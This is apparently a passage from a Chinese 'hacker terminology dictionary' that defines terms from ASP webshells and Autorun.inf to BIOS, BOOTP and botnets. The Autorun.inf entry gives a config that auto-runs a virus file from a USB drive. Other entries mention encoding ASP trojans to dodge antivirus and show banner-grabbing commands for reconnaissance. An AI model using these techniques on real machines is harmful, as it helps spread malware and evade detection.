ASP 脚本是使用一种特定的描述性语言（如 VBScript 或 JavaScript），依据一定的格式编写的可执行文件。脚本通常可以由应用程序临时调用并执行。各类脚本目前被广泛地应用于网页设计中，因为脚本不仅可以减小网页的规模和提高网页浏览速度，而且可以丰富网页的表现。

## ASP 木马  黑客工具

即用 ASP 脚本技术编写的 **WEBSHELL**，也称 ASP 后门或 ASP SHELL，其原理跟常规的木马不同，不分控制端与服务端，即不是 **C/S 模式**。

ASP 木马只有一个脚本文件，放置在被控制的主机上，主机开放了 Web 服务并支持 ASP 解析。控制者通过浏览器就可以使用 ASP 木马，这种模式称为 **B/S 模式**。

ASP 木马的优势在于体积小并且容易安装，因为本质是一个正常的脚本，所以没有进程，一般采用 **FSO** 对象来控制磁盘进行文件的读写操作，利用 wscript.shell 命令行执行组件来执行命令。

ASP 木马常具备的功能有：数据痕操作、批量挂马、提升权限等。

## ASP 加密  黑客技术基础

指通过特定的工具将 ASP 文件的代码加密的过程。由于 ASP 代码是明文，这使得 ASP 加密在很多时候成为许多程序员防止他人抄袭其代码的必要措施，常见的工具有 VBScript.Encode。另外，在免杀技术中，通过 ASP 加密技术也可以让一些 ASP 木马逃过一些杀毒软件的查杀。

## Autorun.inf  操作系统及其相关

Autorun.inf 文件是微软在 Windows 95 操作系统以后所推出的同类产品中新增的一个可以实现“自动运行”功能的系统文件。其一般生成在驱动器的根目录下，保存着一些简单的命令，定义新插入的光盘或硬件应该自动启动什么程序，也可以定义系统的盘符图标为某个路径下的 icon。

其本身是一个常规且合理的文件，但许多人利用“自动运行”这一点，让移动设备在用户系统完全不知情的情况下“自动”执行任何命令或应用程序。许多 U 盘病毒都是利用的 Autorun.inf 这个文件来进行传播，只要将 Autorun.inf 文件与病毒文件放置在 U 盘根目录下，然后在记事本中编辑 Autorun.inf 并输入如下内容：

```ini
[autorun]
OPEN=bingdu.exe
```

我们假设这里的 bingdu.exe 就是病毒文件，当双击打开 U 盘时就会自动运行 bingdu.exe 文件。

## ANSKYA DOWNLOADER LITE  黑客工具

一款专业的后门下载工具，迷你版生成的服务端经过加壳后不到 2K，其主界面如图 A-20 所示。



图 A-20


## Banner  渗透技术

Banner 为标志的意思，是指显示给试图连接某种服务的用户的信息。它可以包括版本信息、系统信息或跟某种授权用户才能使用的服务相关的信息。

在进行渗透踩点的过程中，经常需要判断目标主机各种服务软件的版本或者用户等其他信息，这就需要通过 Banner 来判断。

例如：要判断某网站服务器运行的 WEB 服务软件，可以先执行命令：`telnet xxx.xxx.xxx.xxx 80`，然后再输入 get 后回车，就可以看到一个标准的 HTTP 头。

```text
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Sat, 16 Feb 2008 09:57:10 GMT
Content-Type: text/html
Content-Length: 87

<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>

C:\>
```

其中的“Server: Microsoft-IIS/5.0”可以说明该网站服务器使用的 WEB 服务软件为 IIS5.0。这个 HTTP 头就可以称为 Banner，常用的还有登录 FTP 查看其 Banner 来判断 FTP 软件和版本。

例如在 CMD 模式下输入命令 `ftp www.xxx.org`，会显示下面的信息：

```text
Connected to xxx.org.
220 Microsoft FTP Service
User (xxx (none)):
```

通过这个 FTP 的 Banner 可以很容易判断出其为“Microsoft FTP Service”，即微软自带的 FTP 程序。

## Base64 编码  黑客技术基础

Base64 是网络上最常见的用于传输 8Bit 字节代码的编码方式之一。按照 RFC2045 的定义，Base64 内容传送编码被设计用来把任意序列的 8 位字节描述为一种不易被人直接识别的形式，是网络上最常见的用于传输 8Bit 字节代码的编码方式之一。在发送电子邮件时，服务器认证的用户名和密码及需要发送的附件也都用 Base64 编码。



Bash（Bourne Again SHell）是众多 **LINUX Shell** 中的一种，也是应用最广泛的一种 SHELL。

由于早期的 Unix 年代，发展者众多，所以 Shell 依据发展者的不同就有许多的版本，例如比较常见的 Bourne SHell（sh）、在 Sun 里预设的 C SHell、商业上常用的 K SHell、还有 TCSH 等等，每一种 Shell 都各有其特点。

至于 Linux 使用的这一种版本就称为 Bourne Again SHell（简称 Bash），这个 Shell 是 Bourne Shell 的增强版本，也是基于 GNU 架构下发展出来的。

目前 Linux 的常用 SHELL 如下：

- `/bin/sh`（已经被 `/bin/bash` 所取代）
- `/bin/bash`（就是 Linux 预设的 shell）
- `/bin/ksh`（Kornshell 由 AT&T Bell lab 发展出来的，相容于 bash）
- `/bin/tcsh`（整合 C Shell，提供更多的功能）
- `/bin/csh`（已经被 `/bin/tcsh` 所取代）
- `/bin/zsh`（基于 ksh 发展出来的，功能更强大的 shell）

Bash 之所以被如此广泛地使用，是因为它有众多优点：

## 1、命令记忆能力

bash 里面有一个很棒的功能，就是能记忆使用过的指令，用户通过在指令列里按上下键就可以找到以前输入的指令。利用这个功能可以查询曾经做过的操作，作为调试除错的工具还是不错的！但是，如果系统被入侵了，入侵者也可以利用这个功能来查询你曾经执行过的指令，也许会查到你曾经输入的一些敏感信息。所以，最好是将记录的指令条数设置得少一点。

## 2、命令补全功能

在 Bash Shell 中，只要输入命令的前几个字母再按 TAB 键，Bash 就可以自动帮你补全命令。这个功能可以使你少输入很多字符，并确定输入的命令正确。

## 3、命令别名（alias）设定功能

使用 Linux 时，假如我们需要知道这个目录下所有文件（包含隐藏文件）的属性，那么就必须要使用 `ls -al` 这样的命令。为了方便用户更快捷地输入常用的命令，Bash 提供了命令别名（alias）设定功能，这个功能使得用户可以自己定义输入什么字符来取代以前需要输入的命令，但命令功能不变。

输入命令 `alias` 可以查阅目前的命令别名，也可以直接输入命令来设定别名，如：`alias lm='ls -al'`，我们自定义 `lm` 来取代 `ls -al` 命令，也就是说，lm## 【黑客术语图文辞典】→ Bat

会等于 `ls -al` 命令的功能。

## B/S 模式｜黑客技术基础

B/S 模式，即 Browser/Server（浏览器/服务器）结构，是随着 Internet 技术的兴起，对 C/S 结构的一种变化或者改进的结构。在这种结构下，用户界面完全通过 WWW 浏览器实现，一部分事务逻辑在前端实现，但是主要事务逻辑在服务器端实现。

B/S 结构利用不断成熟和普及的浏览器技术实现原来需要复杂专用软件才能实现的强大功能，并节约了开发成本，是一种全新的软件系统构造技术，其成熟的应用是 JAVA 技术。我们熟悉的 ASP、木马等其他脚本木马正是 B/S 模式的典型应用。

### Bat｜操作系统及其相关

Bat 是 Batch 的缩写，是“批处理文件”的意思，因其后缀名为 BAT，所以经常被人称为 BAT 文件。一般批处理文件的扩展名是 `.bat` 或 `.cmd`。这种文件由一系列系统命令构成，其作用就是自动地连续执行多条命令，其中可以包含对其他程序的调用。

简单地说，批处理就是一系列 DOS 命令的集合，这使用户可以从繁琐的操作中脱离出来，把经常使用的代码集合起来，方便下次使用。当然，你也可以把一些批处理的代码分开来单独执行。

批处理是一种简化的脚本语言，它应用于 DOS 和 Windows 系统中，一般由它们内嵌的命令解释器（通常是 COMMAND.COM 或者 CMD.EXE 文件）来解释运行，类似于 Unix 中的 Shell 脚本。

如果需要实现更复杂的应用，可以使用 if、for、goto 等命令控制程序的运行过程，如同 C、Basic 等高级语言一样。当然，利用外部程序也是必要的，这包括系统本身提供的外部命令和第三方提供的工具或者软件。

批处理程序虽然是在命令行环境中运行，但不仅仅只能使用命令行软件，任何 Windows 程序都可以放在批处理文件中运行。每个编写好的批处理文件都相当于一个 DOS 的外部命令。同时，在入侵时熟练使用 BAT 有时会有很好的作用。

### BBS｜黑客技术基础

BBS 的英文全称是 Bulletin Board System，翻译为中文就是“电子公告板”，是一种交互性强、内容丰富而及时的 Internet 电子信息服务系统，也就是我们很常见的社区、论坛。

用户可以通过拨号、宽带等网络接入方式登录 BBS 站点，从那里可以获得各种信息服务，比如软件下载、讨论聊天等。BBS 是讨论交友的好去处。一个好的 BBS 能够得到许多有用的信息，更能找到一些志同道合的人，这就是 BBS 的作用与意义所在。如图 B-1 所示，为 EST 的 BBS。



图 B-1

## Black hat｜特定名称

Black hat（黑帽），指恶意入侵计算机系统或网络的黑客。同“白帽”黑客不同，“黑帽”黑客在入侵后，会为了达到某种目的而窃取数据、毁坏文件。

## BERYL｜操作系统

BERYL 是 Linux 下面一个比较出色的 3D 虚拟桌面管理器，这个项目目前已并入 compiz fusion。

### BETA｜特定名称

BETA 版，即某软件的公测版本。广义上对测试有三个传统的称呼，即 alpha、beta、gamma，以此来标识测试的阶段和范围。

alpha 是指内测，即现在说的 CB，指开发团队内部测试版本或者有限用户体验测试版本。

beta 是指公测，即针对所有用户公开的测试版本。

通过内测和公测所做出一些修改，并成为正式发布的候选版本时（现在叫做 RC，即 Release Candidate），叫做 gamma。

### BIND｜黑客技术基础

Bind 由 Kevin Dunlap 为伯克利的 4.3 BSD Unix 操作系统编写，它是一款开源源码的 DNS 服务器软件，全名为 Berkeley Internet Name Domain。

目前世界上使用最为广泛的 DNS 服务器软件，支持各种 Unix 平台和 Windows 平台。

### BIOS｜硬件

BIOS 是 Basic Input Output System 的缩略语，直译过来后中文名称就是“基本输入输出系统”，它的全称应该是 ROM-BIOS，意思是“只读存储器基本输入输出系统”。

其实，它是一组固化到计算机内主板上一个 ROM 芯片上的程序，它保存着计算机最重要的基本输入输出程序、系统设置信息、开机上电自检程序和系统启动自举程序。其主要功能是为计算机提供最底层的、最直接的硬件设置和控制。

BIOS 设置程序是储存在 BIOS 芯片中的，只有在开机时才可以进行设置。CMOS 主要用于存储 BIOS 设置程序所设置的参数与数据，而 BIOS 设置程序主要对基本输入输出系统进行管理和设置，使系统运行在最好状态下。使用 BIOS 设置程序还可以排除系统故障或者诊断系统问题。

形象地说，BIOS 应该是连接软件程序与硬件设备的一座“桥梁”，负责解决硬件的即时要求。一块主板性能优越与否，很大程度上就取决于 BIOS 程序的管理功能是否合理、先进。主板上的 BIOS 芯片或许是主板上唯一贴有标签的芯片，一般是一块 32 针的双列直插式集成电路，上面印有“BIOS”字样。

### BIOS 中主要存放：

- **自诊断程序**：通过读取 CMOS RAM 中的内容识别硬件配置，并对其进行自检和初始化。
- **CMOS 设置程序**：一般在开机自检前按 DEL 键可以进入 CMOS 设置程序，进行设置后存入 CMOS RAM 中。
- **系统自举装载程序**：在自检成功后将磁盘相对 0 道 0 扇区上的引导程序装入内存，让其运行并开始装载系统及主要 I/O 设备的驱动程序和中断服务。

由于 BIOS 直接和系统硬件资源打交道，而各种硬件系统又各有不同，所以存在各种不同种类的 BIOS。随着硬件技术的发展，同一种 BIOS 也先后出现了不同的版本，新版本的 BIOS 比起老版本来说，功能更强。

以前的 BIOS 多为可重写 EPROM 芯片，上面的标签起着保护 BIOS 内容的作用（紫外线照射会使 EPROM 内容丢失），不能随便撕下。现在的 ROM BIOS 多采用 EEPROM（也可擦写式只读 ROM），通过跳线开关和系统配带的驱动程序盘可以对 EEPROM 进行重写，方便地实现 BIOS 升级。

### BIT｜黑客技术基础

BIT（位）是电脑数据量的最小单位。二进制数系统中，每个 0 或 1 就是一个位（bit），音译为“比特”，其换算关系是：1 Byte = 8 bit，1 KB = 1024 Byte，1 Mb = 1024×1024 bit = 2^20 bit，1 Gb = 2^30 bit = 1024 Mb，1 Tb = 2^40 bit = 1024 Gb。

### Boot.ini｜操作系统及其相关

BOOT.INI 是自 Windows NT 开始就存在于 Windows 系统中 C 盘根目录下一个重要的系统配置文件，默认属性为隐藏、只读，没有它，系统将无法进行引导。

在 BOOT.INI 中保存有系统的启动信息，每次启动系统时，先读取这个文件，然后根据里面的选项来选择从哪个系统启动。

## BOOTP 协议｜黑客技术基础

BOOTP 协议（Bootstrap Protocol，引导协议）是一种基于 UDP/IP 的协议，这种协议允许正在启动的主机动态配置其网络信息而无需用户监督，我们所经常接触的 DHCP 协议主要就是靠 BOOTP 协议进行实现的。

BOOTP 主要用于客户机从服务器获得自己的 IP 地址、服务器的 IP 地址以及启动映像文件名。其他一些配置信息，如本地子网掩码、本地时间偏移量、默认路由器地址和各种 Internet 服务器地址，都能与使用 BOOTP 协议的客户机交流。

在不知道自身 IP 地址的情况下，进行系统引导时能够通过 RARP 来获取 IP 地址。然而使用 RARP 有两个问题：

- IP 地址是返回的唯一结果。
- 既然 RARP 使用链路层（详情请见 OSI）广播，RARP 请求就不会被路由器转发（迫使每个实际网络设置一个 RARP 服务器）。

BOOTP 的报头格式如图 B-2 所示。BOOTP 请求和应答封装在一个 UDP 数据报内，下面是报头中各个字段的解释。

BOOTP 报头格式（图 B-2）

“操作码”字段为 1 表示请求，为 2 表示应答；“硬件类型”字段为 1 表示 10 Mb/s 的以太网，这和 ARP 请求或应答中同名字段表示的含义相同；对于以太网，“硬件地址长度”字段为 6 字节；“跳数”字段由客户设置为 0，但也能被一个代理服务器设置；“事务标识”字段是一个由客户设置并由服务器返回的 32 bit 整数，客户用它对请求和应答进行匹配。对于每个请求，客户应该将该字段设置为一个随机数。

客户开始进行引导时，将“秒数”字段设置为一个时间值。服务器能够看到这个时间值，备用服务器在等待时间超过这个时间值后才会响应客户的请求，这意味着主服务器没有启动。

如果该客户已经知道自身的 IP 地址，它将写入“客户 IP 地址”字段。否则，它将该字段设置为 0。

对于后面这种情况，服务器用该客户的 IP 地址写入“你的 IP 地址”字段；“服务器 IP 地址”字段则由服务器填写。如果使用了某个代理服务器，则该代理服务器就填写“网关 IP 地址”字段。

客户必须设置它的“客户硬件地址”字段，尽管这个值与以太网数据帧头中的值相同。UDP 数据报中也设置这个字段，但任何接收这个数据报的用户进程能很容易地获得它（例如一个 BOOTP 服务器）。一个进程通过查看 UDP 数据报来确定以太网帧首部中的该字段通常是很困难的（或者说是不可能的）。

“服务器主机名”字段是一个空值终止串，由服务器填写。服务器还将在“引导文件名”字段填入包括用于系统引导的文件名及其所在位置的路径全名。

“特定厂商区域”字段用于对 BOOTP 进行不同的扩展。当一个客户使用 BOOTP（操作码为 1）进行系统引导时，引导请求通常是采用链路层广播，IP 首部中的目的 IP 地址为 255.255.255.255（受限的广播），源 IP 地址通常是 0.0.0.0，因为此时客户还不知道它本身的 IP 地址。在系统进行自引导时，0.0.0.0 是一个有效的 IP 地址。

BOOTP 有两个熟知端口：BOOTP 服务器为 67，BOOTP 客户为 68，这意味着 BOOTP 客户不会选择未用的临时端口，而只用端口 68。BOOTP 服务器选择两个端口的原因是：服务器的应答可以进行广播（但通常是不用广播的）。

如果服务器的应答是通过广播传送的，同时客户又选择未用的临时端口，那么这些广播也能被其他的主机中碰巧使用相同临时端口的应用进程接收到。因此，采用随机端口（即临时端口）对广播来说是一个不好的选择。

如果客户也使用服务器的知名端口（67），那么网络内的所有服务器会被唤醒并查看每个广播应答（如果所有的服务器都被唤醒，它们将检查操作码，操作码是应答就不作处理）。因此可以让所有的客户使用与服务器知名端口不同的同一知名端口。

如果多个客户同时进行系统引导，并且服务器广播所有应答，这样每个客户都会收到其他客户的应答。客户可以通过 BOOTP 首部中的事务标识字段来确认应答是否与请求匹配，或者可以通过检查返回的客户硬件地址加以区分。

### BotNet｜病毒与恶意软件

BotNet 即僵尸网络，是指采用一种或多种传播手段，将大量主机感染 bot 程序（僵尸程序），从而在控制者和被感染主机之间所形成的一个可一对多进行控制的网络。这个网络是采用了一定的恶意传播手段形成的，例如主动漏洞攻击、邮件病毒、网页木马等都是攻击者得到僵尸主机的手段。

Botnet 最主要的特点，就是可以一对多地执行相同的恶意行为，比如可以同时对某目标网站进行分布式拒绝服务（DDoS）攻击，发送大量的垃圾邮件，或者利用其控制的主机访问指定的广告页面，获取流量等。而正是这种一对多的控制关系，使得攻击者能够以极低的代价高效地控制大量的资源为其服务，这也是 Botnet 攻击模式近年来受到黑客青睐的根本原因。在执行恶意行为的时候，Botnet 充当了一个攻击平台的角色，这也就使得 Botnet 不同于简单的病毒和蠕虫，也与通常意义的木马有所不同。

有许多木马可以组建僵尸网络，例如鼎鼎大名的灰鸽子（虽然作者声称为“远程控制软件”），还有许多用来 DDoS 的工具都有这样的功能。一般都是由攻击者在跳板主机通过广播命令向所有的僵尸主机发送统一命令，然后所有的僵尸主机将会攻击同一个目标，这种多对一的攻击方式非常具有威力。



### Bug｜特定名称

Bug 一词的原意是“臭虫”或“虫子”，它现在之所以经常被计算机相关的文献使用都是因为以下这个故事：

1945 年的夏天，哈珀正领着她的小组构造一个称为“马克二型”的计算机。这还不是一个完全的电子计算机，它使用了大量的继电器（一种电子机械装置）。房间里没有空调，所有窗户都敞开着进行散热……突然，马克二型死机了。技术人员开始检查故障，最后发现问题出现在第 70 号继电器。哈珀观察这个出错的继电器，发现一只飞蛾躺在中间，已经被继电器打死。她小心地用镊子将飞蛾夹出，用透明胶布贴到“事件记录本”中，并注明“第一个发现虫子（Bug）的实例。”

后来，Bug 这个名词就沿用下来，表示电脑系统或程序中隐藏的错误、缺陷、漏洞或问题。与 Bug 相对应，人们将发现 Bug 并加以纠正的过程叫做“Debug”，即“捉虫子”或“杀虫子”的意思。

## BXP 架构｜黑客技术基础

BXP 系统是美国 Venturcom 公司开发的，为无盘工作站提供的一套系统，是基于网络的可引导虚拟存储解决方法。

BXP 是一套纯软件的解决方案，客户机只要有支持 PXE（Pre-boot eXecution Environment）功能的 BIOS 或网卡即可（主流的网卡都可以通过添加 BOOTROM 来实现 PXE 功能）。它不需要特殊的硬件就可以让无盘工作站引导并运行 Windows 2000/XP 系统和其之上的应用程序。

无盘工作站启动后，通过 BXP 客户端的虚拟磁盘驱动程序透明地连接到服务器的虚拟磁盘映像，生成一个虚拟的本地硬盘，从而使无盘工作站完全像有盘站一样工作。

BXP 是利用服务器的硬盘空间，通过网络存储虚拟映射的纯软件无盘解决方案，与传统的无盘网络大不相同。其所有的处理都在工作站系统上完成，服务器只提供启动和存取服务。也就是说，在无盘工作站运行软件时，所消耗的资源（主要指 CPU 和内存资源）都是工作站自身提供的，这点与 Windows 2000 终端是完全不同的。

## B 类地址｜黑客技术基础

即 B 类 IP 地址。一个 B 类 IP 地址由 2 个字节的网络地址和 2 个字节的主机地址组成，网络地址的最高位必须是“10”，即第一段数字范围为 128-191。每个 B 类地址可连接 64516 台主机，Internet 有 16256 个 B 类地址。详情请见 **IP 地址**。

### C

### C-Free｜程序语言与开发

C-Free 是一款基于 Windows 的 C/C++ 集成化开发软件，它是作者为 C/C++ 的初学者量身定做的。利用本软件，使用者可以轻松地编辑、编译、连接、运行、调试 C/C++ 程序。

## C/S 模式｜黑客技术基础

C/S 模式，即 Client/Server（客户机/服务器）结构，是软件系统体系结构的一种。简单地讲，C/S 模式就是基于企业内部网络的应用系统，它最大的好处是不依赖企业外网环境，即无论企业是否能够上网，都不影响应用。

它通过将任务合理分配到 Client 端和 Server 端，降低了系统的通信开销，可以充分利用两端硬件环境的优势。大部分木马都是以 C/S 模式进行设计的，而 **ASP 木马** 与其他的脚本木马则是用其相对的 **B/S 模式**。

典型的 C/S 模式应用系统网络结构如图 C-1 所示。



图 C-1

### C++｜程序语言与开发

C++ 是在 C 的基础上发展起来的一种新型程序设计语言，它保持了 C 的高效、简洁和接近汇编语言的特点，既支持面向过程的程序设计，也支持面向对象的程序设计。它为程序员的程序开发活动提供了一个优良的程序设计环境，以产生模块化程度高、重用性和维护性较佳的程序。

中国的程序员通常把 C++ 读做“C 加加”，而西方的程序员通常读做“C plus plus”。就学习 C++ 而言，可以认为它是一门独立的语言，它并不依赖 C 语言，我们可以完全不学 C 语言，而直接学习 C++。

C++ 与 C 的效率往往相差在正负 5% 之间，所以有人认为在大多数场合，C++ 完全可以取代 C 语言（然而我们在单片机等需要谨慎利用空间、直接操作硬件的地方还是要使用 C 语言）。

### C32ASM｜程序语言与开发

C32asm 是一款非常不错的国产静态反编译工具（如图 C-2），其具有如下功能：

- 快速静态反编译 PE 格式文件（Exe、Dll 等）
- 提供 Hex 文件编辑功能，功能强大
- 提供内存 Dump、内存编辑、PE 文件 Dump、PE 内存 ImageSize 修正等多种实用功能
- 提供内存反汇编功能，提供汇编语句直接修改功能，免去 Opcode 直接操作的繁琐
- 提供反编译语句的彩色语法功能，方便阅读分析，并可自定义语法色彩
- 提供输入表、输出表、参考字符、跳转、调用、PE 文件分析结果等显示
- 提供方便的跳转、调用目标地址的代码显示
- 提供汇编语句逐字节分析功能，有助于分析花指令等干扰代码



图 C-2

